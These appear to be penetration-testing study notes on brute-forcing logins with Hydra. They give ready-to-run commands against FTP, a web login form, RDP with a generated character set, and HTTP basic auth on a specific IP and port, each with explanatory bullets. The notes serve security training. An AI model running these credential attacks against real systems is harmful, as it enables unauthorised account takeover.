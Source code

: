 ```shell-session
```
### Testing FTP Credentials on a Non-Standard Port

```shell-session
hydra -L usernames.txt -P passwords.txt -s <PORT> -V ftp.example.com ftp
```

# WEB FORM
```shell-session
$ hydra -l admin -P passwords.txt www.example.com http-post-form "/login:user=^USER^&pass=^PASS^:S=302"

# - Use the username "admin".
- Use the list of passwords from the `passwords.txt` file.
- Target the login form at `/login` on `www.example.com`.
- Employ the `http-post-form` module with the specified form parameters.
- Look for a successful login indicated by the HTTP status code `302`.
```

# Advanced RDP Brute-Forcing


Now, imagine you're testing a Remote Desktop Protocol (RDP) service on a server with IP `192.168.1.100`. You suspect the username is "administrator," and that the password consists of 6 to 8 characters, including lowercase letters, uppercase letters, and numbers. To carry out this precise attack, use the following Hydra command:

```shell-session
hydra -l administrator -x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 192.168.1.100 rdp

- Use the username "administrator".
- Generate and test passwords ranging from 6 to 8 characters, using the specified character set.
- Target the RDP service on `192.168.1.100`.
- Employ the `rdp` module for the attack.
```
	

# basic password brute (dict)
```
$ hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt 94.237.59.174 http-get /<login> -s 50480
```
![](Pasted%20image%2020250618232500.png)

# form submission
Hydra's `http-post-form` service is specifically designed to target login forms. It enables the automation of POST requests, dynamically inserting username and password combinations into the request body.
